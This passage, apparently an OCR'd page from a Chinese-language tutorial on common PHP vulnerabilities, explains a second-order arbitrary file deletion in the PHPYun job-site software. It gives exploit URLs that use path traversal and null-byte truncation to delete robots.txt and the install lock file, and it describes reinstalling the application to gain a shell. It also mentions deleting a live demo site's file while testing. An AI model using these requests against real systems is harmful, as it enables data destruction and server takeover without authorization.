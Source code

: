 ![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/5/5.1/5.1-1.jpg)


<pre>
這樣先轉義寫進資料庫了。然後就按照這樣再請求一次。
www....//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00
再請求一次 資料庫輸出, 然後就又能截斷 成功刪除了robots.txt
測試的時候把demo的robots.txt刪掉了 http://www.**.**.**.**/robots.txt 已經404了。
你們自己添加上去一下把。
進一步的利用的話 我們可以先刪除lock 然後重裝進行getshell
/friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../data/phpyun.lock%00
這個需要請求兩次。
</pre>


![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/5/5.1/5.1-2.jpg)


---

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/5/5.1/5.1-3.jpg)


成功GetShell

---

## **第二處在**
<p>
member/com/model/show.class.php中

```php
function del_action(){

        if($_GET['id']){

            $row=$this->obj->DB_select_once("company_show","`id`='".(int)$_GET['id']."' and `uid`='".$this->uid."'","`picurl`");//出库

            if(is_array($row))

            {

                $this->obj->unlink_pic(".".$row['picurl']);//這裡把資料庫輸出的刪除掉 看哪裡寫進資料庫

$oid=$this->obj->DB_delete_all("company_show","`id`='".(int)$_GET['id']."' and `uid`='".$this->uid."'");

            }

            if($oid)

            {

                $this->obj->member_log("刪除企業環境展示");

                $this->layer_msg('刪除成功!',9);

            }else{

                $this->layer_msg('刪除失敗!',8);

            }

        }
```